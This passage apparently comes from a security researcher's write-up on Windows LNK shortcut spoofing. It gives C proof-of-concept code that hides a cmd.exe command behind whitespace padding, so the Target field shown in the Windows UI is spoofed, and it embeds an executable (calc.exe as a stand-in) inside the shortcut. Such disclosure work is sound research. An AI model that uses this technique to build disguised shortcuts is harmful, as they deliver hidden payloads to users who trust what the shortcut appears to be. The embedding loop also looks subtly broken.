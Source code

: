 ```c
    WCHAR unicodeBuffer[260] = { 0 };

    if (MultiByteToWideChar(CP_ACP, 0, envPath, -1, unicodeBuffer, 260) == 0) {
        printf("Failed to convert to Unicode: %lu\n", GetLastError());
        CloseHandle(hFile);
        return 1;
    }

    if (!WriteFile(hFile, unicodeBuffer, 520, &bytesWritten, NULL)) {
        printf("Failed to write TargetUnicode: %lu\n", GetLastError());
        CloseHandle(hFile);
        return 1;
    }
```

Example:

![7](https://raw.githubusercontent.com/nafiez/nlabs.github.io/master/images/p7.png)

I would rather say this issue is a spoofing where you can manipulate the Shell Link to call `cmd.exe` from `EnvironmentVariableDataBlock` and execute its arguments from `COMMAND_LINE_ARGUMENTS` with extra juicy whitespace character padding bytes and concatenates the actual payload on top of it. So were actually seeing things being spoofed in the `Target` field from the Windows UI. Apologize for this confusing words LOL. 

And of course you can embed an executable inside the LNK file towards the end of the file and you can modify the `COMMAND_LINE_ARGUMENTS` to execute your payload (PowerShell FTW!). Here is the example code that you can use to embed executable in LNK file:
```c
	printf("Reading calc.exe from %s\n", pExePath);
	for (;;)
    {
        if (ReadFile(hExe, exeBuffer, sizeof(exeBuffer), &exeFileSize, NULL)) 
        {
            printf("Successfully read calc.exe: %lu bytes\n", exeFileSize);

            if (exeFileSize == 0)
            {
                break;
            }

            if (!WriteFile(hFile, exeBuffer, exeFileSize, &bytesWritten, NULL)) {
                printf("Failed to write embedded exe data: %lu\n", GetLastError());
                free(exeBuffer);
                CloseHandle(hFile);
                return 1;
            }

            printf("Successfully embedded calc.exe in LNK file: %lu bytes written\n", bytesWritten);
            free(exeBuffer);
        }
        else {
            printf("Failed to read calc.exe, continuing without embedding\n");
        }
    }
```
